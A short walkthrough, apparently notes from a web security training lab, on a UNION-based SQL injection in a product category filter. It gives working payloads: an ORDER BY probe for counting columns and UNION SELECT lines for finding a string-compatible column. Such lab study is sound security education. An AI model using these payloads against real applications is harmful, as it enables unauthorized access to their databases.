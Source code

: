 SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data

Step 1
' ORDER BY 1-- {Do this iteratively until you get an error on the no of columns}

Step 2:
' UNION select 'a',NULL,NULL--
' UNION select NULL,'a',NULL--
' UNION select NULL,'zMjGhD',NULL--

